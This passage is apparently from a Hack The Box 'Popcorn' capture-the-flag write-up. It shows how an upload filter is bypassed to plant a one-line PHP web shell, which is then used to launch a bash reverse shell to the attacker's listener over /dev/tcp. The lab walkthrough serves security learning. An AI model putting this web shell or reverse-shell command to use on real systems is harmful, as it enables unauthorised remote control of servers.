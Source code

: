 We now know that the upload is not blocking files based on the extension. We can assume that it is either blocking them based on the Content-Type or by the magic bytes of the file. Since the Content-Type of image/gif clearly works I'm going to leave that alone and try modifying the file contents that are being uploaded. Changing the file data to `<?php system($_REQUEST['cypher']); ?>` should allow us to execute commands so lets give it a shot.

![](/images/HTB/Popcorn/burp_webshell_upload.png)

Looking good! Now let's see if this will run commands.

![](/images/HTB/Popcorn/webshell.png)

Awesome. Lets convert this to a shell on the machine by passing the command `bash -c 'bash -i >& /dev/tcp/10.10.14.22/6868 0>&1'` while making sure to have a netcat listener going. I'm going to do this within burpsuite and make it a post request to make it easier to read and to make sure we have the proper url encoding done.

![](/images/HTB/Popcorn/user_shell.png)
